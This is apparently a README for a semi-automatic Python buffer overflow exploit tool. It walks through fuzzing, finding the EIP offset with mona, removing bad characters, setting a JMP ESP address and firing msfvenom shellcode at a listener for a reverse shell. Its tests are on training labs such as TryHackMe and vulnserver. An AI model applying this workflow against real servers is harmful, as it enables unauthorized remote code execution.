 # BOF-SemiAutomatic
A python based semi-automatic buffer overflow exploit script 

# How to 

Step 1 : Edit the code and add remote address, remote port, command, listener IP and port. 

```
#Server response timeout, will be used to identify a crash.
timeout = 5
#Add vulnerable server's IP address and port to connect
addr = ('<IP address>',<PORT>)
#Add command to send prepended to the buffer, eg. 'TRUN .' for vulnserver.exe
cmd = "<COMMAND>"

Run -> python semi-win32.py fuzz

```

Step 2 - Follow the onscreen instructions and run mona to find the offset 

Update the correct EIP offset in the code

```

#Default starting EIP offset is 50, change to correct EIP offset after fuzz step
offset = 50  

Run -> python semi-win32.py badchars 

```

Update the badchars in the code as you find them, rerun multiple times until mona shows no modified chars 

```
#Add bad characters to the list as you find them
bad = "\x00"

```

Step 3 - Update set the 'JMP ESP' address in the code 

```
#Update JMP ESP address to the below before running 'shell'
esp = ""
Make sure your listener is running and run -> python semi-win32.py shell

```
 
# Testing 

Tested on TryHackMe labs - https://tryhackme.com/room/bufferoverflowprep - Thanks to Tib3rius

Tested on Brainpan.exe

Tested on vulnserver.exe (spiking done seperately)





# Known issues

Please ignore the below waring, its because I used 'import' used inside a function. Its just a dirty way to read the shellcode generated by msfvenom 

```
semi-win32.py:97: SyntaxWarning: import * only allowed at module level
  def shellcode(addr,cmd,lhost,lport,j,esp,timeout):
```
